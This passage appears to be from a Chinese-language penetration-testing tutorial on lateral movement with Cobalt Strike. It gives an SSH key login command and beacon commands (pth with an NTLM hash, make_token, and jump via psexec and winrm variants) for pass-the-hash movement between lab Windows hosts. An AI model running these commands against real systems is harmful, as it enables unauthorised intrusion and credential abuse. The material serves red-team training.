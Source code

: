 ```
ssh-key 192.168.10.13:22 root e:\id_rsa
```




![](https://img-blog.csdnimg.cn/20200530123906927.png)



![](https://img-blog.csdnimg.cn/20200530123925306.png)



**对于Windows机器，如果我们获取到账号和密码(明文或者哈希)，都可以进行远程连接**



远程连接的前提是目标机器开放了445端口，然后CS会通过远程连接开启一个CS的seesion。可以用以下方式远程连接：psexec 、psexec64、psexec\_psh 、winrm 和 winrm64。实测使用 **psexec\_psh** 成功率最高。



已经得到机器Win2008的密码为：root （329153f560eb329c0e1deea55e88a1e9），现在想哈希传递Win2003机器。监听器为：test



```
如果知道知道密码哈希的话：       
rev2self      
pth WIN2008\Administrator 329153f560eb329c0e1deea55e88a1e9       
psexec的命令：jump psexec WIN2003 test      
psexec64的命令jump psexec64 WIN2003 test      
psexec_psh的命令：jump psexec_psh WIN2003 test      
winrm的命令：jump winrm WIN2003 test      1
winrm64的命令： jump winrm64 WIN2003 test       1
如果是知道明文密码的话：       1
rev2self      1
make_token WIN2008\Administrator root       1
psexec的命令：jump psexec WIN2003 test      1
psexec64的命令jump psexec64 WIN2003 test      1
psexec_psh的命令：jump psexec_psh WIN2003 test      2
winrm的命令：jump winrm WIN2003 test      2
winrm64的命令： jump winrm64 WIN2003 test
```




![](https://img-blog.csdnimg.cn/20200524000327757.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200524000213704.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200524000831204.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200524001029992.png)
